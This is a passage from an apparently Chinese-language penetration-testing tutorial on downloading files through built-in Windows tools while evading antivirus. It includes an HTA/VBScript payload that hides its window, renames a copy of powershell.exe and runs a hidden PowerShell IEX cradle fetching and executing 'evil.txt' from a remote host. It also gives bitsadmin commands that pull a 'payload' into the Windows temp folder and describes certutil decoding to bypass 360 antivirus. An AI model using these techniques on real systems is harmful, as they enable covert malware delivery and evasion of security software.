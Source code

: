 ```html
self.close();
</script>
<body>
demo
</body>
</HEAD> 
</HTML>

```

同样的，该方法可以绕过360来进行下载，我们可以先将文件base64编码，然后利用该脚本下载，最后利用certutil.exe来对文件解码。

当然我们也可以直接利用mstha来执行powershell的命令，从而达到下载文件的效果。

```html
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Dim fso
Set fso = CreateObject("Scripting.FileSystemObject")
fso.CopyFile "C:/Windows/System32/WindowsPowerShell/v1.0/powershell.exe", "C:/Windows/Temp/powershell.tmp", True
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "C:/Windows/Temp/powershell.tmp -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://example.com/evil.txt'))"""
self.close
</script>
<body>
</body>
</HEAD> 
</HTML> 
```



## Bitsadmin

BITSAdmin是一个命令行工具，可用于创建下载或上传并监视其进度，自windows7 以上版本内置bitsadmin，它可以在网络不稳定的状态下下载文件，出错会自动重试，在比较复杂的网络环境下，有着不错的性能。不过该功能存在一个缺点，需要管理员权限。

bitsadmin存在多种下载命令：

```
bitsadmin /rawreturn /transfer getfile http://example.com/test.zip c:\windows\temp\test.zip

bitsadmin /rawreturn /transfer getpayload http://example.com/test.zip c:\windows\temp\test.zip

//该命令带有进度条
bitsadmin /transfer myDownLoadJob /download /priority normal "http://example.com/test.zip" "c:\windows\temp\test.zip"

//以创建计划任务的形式执行命令
bitsadmin /create myDownloadJob   //创建任务
bitsadmin /addfile myDownloadJob http://example.com/test.zip c:\windows\temp\test.zip   //给任务添加下载文件
bitsadmin /resume myDownloadJob 
bitsadmin /info myDownloadJob /verbose
bitsadmin /complete myDownloadJob
```
